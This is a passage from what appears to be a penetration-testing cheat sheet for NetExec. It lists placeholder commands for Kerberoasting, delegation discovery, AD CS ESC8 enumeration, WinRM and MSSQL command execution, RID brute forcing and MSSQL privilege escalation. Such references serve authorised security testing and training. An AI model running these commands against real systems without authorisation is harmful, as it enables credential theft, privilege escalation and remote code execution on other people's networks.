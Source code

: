 #### Kerberoasting

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --kerberoasting hashes.kerberoasting
```

#### Delegation

##### Find Delegation

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --find-delegation
```

##### Find Unconstrained Delegation

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --trusted-for-delegation
```

#### Active Directory Certificate Services (AD CS)

#### ESC8: NTLM Relay to AD CS HTTP Endpoints

```console
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M adcs
$ netexec ldap <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M adcs -o SERVER=<RHOST>
```

### WinRM

#### Command Execution

```console
$ netexec winrm <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -X <COMMAND>
```

### MSSQL

#### RID Brute Force

```console
$ netexec mssql <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --rid-brute
```

#### Privilege Escalation

```console
$ netexec mssql <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M mssql_priv
$ netexec mssql <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M mssql_priv -o ACTION=privesc
$ netexec mssql <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M mssql_priv -o ACTION=rollback
```

#### Command Execution

```console
$ netexec mssql <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --local-auth -x whoami
$ netexec mssql <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```
